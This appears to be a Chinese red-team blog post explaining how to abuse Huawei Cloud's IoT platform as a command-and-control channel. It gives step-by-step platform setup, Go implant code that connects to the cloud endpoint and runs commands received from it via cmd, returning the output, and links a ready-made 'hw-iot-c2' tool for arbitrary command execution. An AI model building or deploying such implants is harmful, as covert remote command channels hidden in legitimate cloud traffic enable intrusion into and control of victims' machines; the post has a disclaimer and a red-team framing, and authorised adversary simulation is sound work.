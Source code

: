#  集权系统即C2-华为云

原创 unknown  [ 极致攻防实验室 ](javascript:void\(0\);)

**极致攻防实验室** ![]()

微信号 jz_sec

功能介绍 极致攻防实验室专注于最前沿，最基础，最实际的红蓝对抗黑客技术。

____

___发表于_

收录于合集

#红队 2 个

#渗透 3 个

#C2 3 个

**免责声明：**

本文章或工具仅供安全研究使用，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，极致攻防实验室及文章作者不为此承担任何责任。

 **前言：**

在上一篇文章中使用了[牧云主机管理](http://mp.weixin.qq.com/s?__biz=Mzg5MDcyODg4OA==&mid=2247483762&idx=1&sn=cc6ff2548dfafbd338ae36601c9f461a&chksm=cfd979a5f8aef0b32957ce295a584c82d0c4fb39668027c7ca7094500f4d1c4f21e5a803eaa6&scene=21#wechat_redirect)充当远程C2，利用其自带官方签名和官方通信信道的天然优势，结合默认安装手法，看似已经完美。但是作为服务的使用者，一切能力都是建立Sass服务商所提供的功能，其实仅简单的命令执行和文件上传，还是不太满足红队工作的常见场景。本文将介绍另一款使用某云厂商的物联网平台用作红队C2，并且可以在普通权限下，可自主实现功能代码与平台进行交互(附项目源码)，用于拓展与满足红队日常渗透场景。（再次申明：云服务需要实名认证，请勿用于非法用途）。

  

 **一、平台准备：**

 **开通免费单元：**

使用账号登录到物联网平台，在IoTDA实例中，点击标准版，开通免费单元

![](https://gitee.com/fuli009/images/raw/master/public/20230619093700.png)

实例名称随便填写，可以看到免费版支持1000台设备在线  

![](https://gitee.com/fuli009/images/raw/master/public/20230619093707.png)  

  

 **创建产品：**  

创建产品,除了协议类型和数据格式，可以随便填写或选择，其中协议类型可以选择多种协议，此处选择MQTT协议。

![](https://gitee.com/fuli009/images/raw/master/public/20230619093708.png)

 **创建服务：**

定义模型，才能创建服务：  

![](https://gitee.com/fuli009/images/raw/master/public/20230619093711.png)

添加服务后，添加命令并且新增命令，命令参数此处添加了两个，用于接下来的命令执行的下发和响应。  

![](https://gitee.com/fuli009/images/raw/master/public/20230619093712.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230619093714.png)

  

 **注册设备：**

设备ID和密钥用于后续C2的连接，其他默认即可：

![](https://gitee.com/fuli009/images/raw/master/public/20230619093715.png)

注册设备完成后如图所示，等待设备连接后激活：  

![](https://gitee.com/fuli009/images/raw/master/public/20230619093716.png)

  

 **二、C2连接与功能开发：**

C2开发即iot设备的开发，参考官方文档SDK参考，可以使用java、c#、c、python、go等语言进行开发,本文将使用GO语言进行c2（设备）的开发与连接：

![](https://gitee.com/fuli009/images/raw/master/public/20230619093718.png)

 ** **  
****

 ** **设备连接：****  

CreateIotDevice处填入注册设备时的设备id和密钥、连接地址查看实例的接入信息

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package main  
    import (  "fmt"  "github.com/ctlove0523/huaweicloud-iot-device-sdk-go")  
    func main() {  // 创建一个设备并初始化  device := iot.CreateIotDevice("xxx", "xxx", "tls://xxxx.xxx.myhuaweicloud.com:8883")  device.Init()  if device.IsConnected() {    fmt.Println("device connect huawei iot platform success")  } else {    fmt.Println("device connect huawei iot platform failed")  }  
      var forever chan struct{}  <-forever}

  

尝试连接，平台测可以看到设备在线

![](https://gitee.com/fuli009/images/raw/master/public/20230619093719.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230619093720.png)

  

 **功能开发：**

接下来编写一个执行ipconfig功能

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package main  
    import (  "fmt"  "github.com/ctlove0523/huaweicloud-iot-device-sdk-go")  
    func main() {  // 创建一个设备并初始化  device := iot.CreateIotDevice("xxx", "xxx", "tls://xxxx.xxx.myhuaweicloud.com:8883")  device.Init()  if device.IsConnected() {    fmt.Println("device connect huawei iot platform success")  } else {    fmt.Println("device connect huawei iot platform failed")  }  // 添加用于处理平台下发命令的callback  device.AddCommandHandler(func(command iot.Command) (bool, interface{}) {    cmd := exec.Command("cmd", "/c", "ipconfig")      output, err := cmd.CombinedOutput()    if err != nil {      return false, ""    }    return true, string(output)    })  
      var forever chan struct{}  <-forever}

  

平台侧调试：

![](https://gitee.com/fuli009/images/raw/master/public/20230619093721.png)

点击发送，可以看到命令结果回显：  

![](https://gitee.com/fuli009/images/raw/master/public/20230619093722.png)

  

 **三、hw-iot-c2:**

https://github.com/UltimateSec/hw-iot-c2

![](https://gitee.com/fuli009/images/raw/master/public/20230619093723.png)

修改一下命令形式，适配c2架构

![](https://gitee.com/fuli009/images/raw/master/public/20230619093724.png)

任意命令执行：

![](https://gitee.com/fuli009/images/raw/master/public/20230619093725.png)

更多功能可参考代码自主拓展。

  
 **四、局限**

  * 自定义程序，无官方签名
  * 云服务实名认证，请合法合规使用  

  
 **五、参考**  
https://support.huaweicloud.com/sdkreference-iothub/iot_02_00920.html  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

